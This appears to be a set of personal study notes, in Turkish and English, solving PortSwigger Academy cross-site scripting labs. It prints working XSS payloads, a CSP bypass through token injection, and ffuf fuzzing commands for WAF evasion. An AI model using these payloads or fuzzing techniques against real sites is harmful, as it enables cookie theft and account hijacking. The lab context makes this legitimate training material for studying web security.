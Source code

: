 #### 1.Lab: Reflected XSS into HTML context with nothing encoded

Adımlar:
- Search bar'a `<script>alert(1)</script>` yazıyoruz
- Voila lab çözüldü

#### 2.Lab: Stored XSS into HTML context with nothing encoded

Description: Labda yorum özelliğinde bir XSS açığı olduğu söyleniyor

Adımlar:
- Herhangi bir post sayfasında bir yorum yazacağız
- `<script>alert(1)</script>` ifadesini yorum kısmına yazıyoruz
- Yorumu onayladığımızda lab çözülüyor
- Voila Lab solved

DOM Tanım: Document object model, xml ve html dosyalarıyla yapılandırılmş bir objeler ağacı olarak temsile eden ve etkileşime geçen bir programlama arayüzüdür.
#### 3.Lab: DOM XSS in `document.write` sink using source `location.search`

Labda search feature kullanılırken location.search'den gelen veri ile çağrılan document.write fonkisyonundan kaynaklanan bir XSS zafiyeti olduğu söyleniyor

Adımlar:
- We make a search in the search bar
- Afterwards we check the source of the webpage, we look up our search querry
- We see that it is located in the image below
![[Pasted image 20250521185315.png]]
- We see that whatever we enter into the search bar finds its way here
- to exploit this we write`"><svg onload=alert(1)>` in the search bar
- the `<svg>` tag is a tag that lets the user create graphics without referring to actual images
- the `onload` property here means that the moment this `<svg>` object is called upon in the DOM system the particular action written inside the `onload` property is activated

#### 4.Lab: DOM XSS in `innerHTML` sink using source `location.search`

In this lab it is stated that the application uses the `innerHTML` property to change the contents of a `<div>` object. We are gonna exploit this to insert an object into it.

Adımlar:
- We write anything inside the search bar
- we see that whatever we written inside the search bar is now located inside a `<span>` tag
- Knowing this we write `"><svg onload =alert(1)>` in the search bar
- tags like svg, iframe gibi tagler dom ile çağrıldığında onload function çağrılır
- bu durumda alert(1)
- Lab solved


#### 5.Lab: Reflected XSS into HTML context with most tags and attributes blocked

In this lab we have to find a tag that the application accepts, the application has a WAF that filters certain tags, we do that via fuzzing:

Steps:
- We do a fuzzing to find the right tag:
```
ffuf -u https://0a09009903d757f68090c68c00c40008.web-security-academy.net/?search=%22%3E%3CFUZZ+onload+%3Dalert%281%29%3E -w Html_tags.txt
```
- Now that we found the right tag which is the `<body>` tag we face another issue and that is to find the right attribute.
- To find the right attribute we do another fuzzing:
```
ffuf -u https://0a09009903d757f68090c68c00c40008.web-security-academy.net/?search=%22%3E%3Cbody+FUZZ+%3Dalert%281%29%3E -w Html_tag_attributes.txt
```
- Through this fuzzing we see that the `onresize` attribute is allowed
- Now we go to our exploit server and deliver this exploit to the victim:
```
<iframe src ="https://0a09009903d757f68090c68c00c40008.web-security-academy.net/?search=<body onresize = print(1)>" onload =this.style.width="100px">
```
- And Voila the lab is solved.

#### 6.Lab: Reflected XSS protected by CSP, with CSP bypass

Bu labda bizden CSP bypass yapmamız isteniyor. CPS directiveleri, hangi kaynaklardan gelen kaynakların çalıştırılıp çalıştırılmayacağını belirler. Bu genelde bu script-src ve script-src-elem directiveleri üzerinden yapılır. script-src javascript çalıştırılabilecek dosyalarını, script-src-elem ise src özelliğinin nasıl çalıştırılacağını belirler. Daha önce CSP bypass üzerine yapılan bir bug bounty denemesinde paypal'in report-uri directive'i içinde bir token parametresi olduğu görünüyor biz de bu token parametresini exploit etmeye çalışacağız

Adımlar:
- Arama barına `<script>alert("Let's go")</script>` yazdığımızda scriptiminizin çalışmadığını yani CSP tarafından engellendiğini göreceksiniz.
- Biz de URL'imizde bahsettiğimiz değişikllikleri yapacağız
- URL'i `search=<script>alert("Let's go")</script>&token=;script-src-elem 'unsafe-inline'` olarak değiştiryoruz
- Bu script-src-elem directive'i bize script etiketlerinin içine yazdığımız inline scriptleri çalıştırmamızı sağlıyor.


# 7.Lab: Reflected XSS into HTML context with all tags blocked except custom ones

In this lab we are asked to use a custom tag to execute a reflected xss attack. To do that  I have tried a few attributes and the on that worked was the `onfocus` attribute.

Adımlar:
* bir arama yapıyoruz ve aramadan elde ettiğimiz url'i kopyalıyoruz.
* URL'i aşağıdaki ibareye yazıyoruz:
```
location = 'https://0a7000170427b03980e2e9c800ba003a.web-security-academy.net/?search=<banner id =x onfocus= alert(document.cookie)>brotherhood with no banners</banner>#x';
```
- Bu ibareyi gönderiyoruz
- lab solved

#### 8.Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

URL olarak:
```
produc?productId=4&storeId="></select><img src=345 onerror=alert(1)>
```
giriyoruz ve lab çözülüyor.

#### 9.Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

Labda bizden document.cookie alert etmemiz istenmekte. Labda JQuerry kütüphanesinin kullanılmakta olduğu söyleniyor ve `attr()` fonksiyonu ile bir `<a>` elemanının `href` değerini manipüle ederek bir XSS saldırısı gerçekleştirmemiz isteniyor.

Adımlar:
- Feeadback gönderme özelliğine aşağıdaki fonksiyonu giriyoruz:
```javascript
$(function() { $(a).attr("href",(new URLSearchParams(window.location.search)).get('returnPath')); });
```
- Bu fonksiyon `<a>` etiketlerinin `href` özelliklerinin içeriğini, location.search ile elde ettiğimiz URL'in returnPath değeriyle değiştirmemizi sağlıyor.
- Bu fonksiyonu da URL üzerinden çağırıyoruz : `?returnPath=javascript:alert(document.cookie)`
- Böylece Lab çözülmüş oldu.

